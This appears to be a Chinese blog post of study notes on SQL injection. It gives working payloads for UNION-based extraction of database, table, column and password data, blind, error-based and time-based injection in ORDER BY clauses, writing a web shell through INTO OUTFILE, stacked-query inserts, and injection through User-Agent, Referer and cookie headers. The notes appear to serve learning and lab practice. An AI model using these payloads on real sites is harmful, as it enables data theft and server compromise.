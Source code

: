 ```yaml
---
published: true
---
```


### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如：id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。
  可能要求 UNION SELECT 1，2，3，(select table_schema FROM information_schema.TABLES)才能成功
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名
5、知道pass段名有user union select 1，2，3，pass from user

### Order by注入：
当原始sql语句是order by时不能使用union等进行注入
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/SQL1.jpg)
   
   rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。
2、报错注入
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+
3、导入导出文件into outfile参数
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”
    然后考虑上传网马，利用lines terminated by。
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt” terminated by 0x(网马进行16进制转换)
4、延时注入
？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+
#(如果为假，就会有延迟)，if(判断,sleep(),1)为真会有延迟


### 堆叠查询：即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
   id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql2.jpg)

报错信息’）要需求多构造）

![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql3.jpg)


### cookie注入：
对cookie的值进行union注入,注意cookie是否经过编码
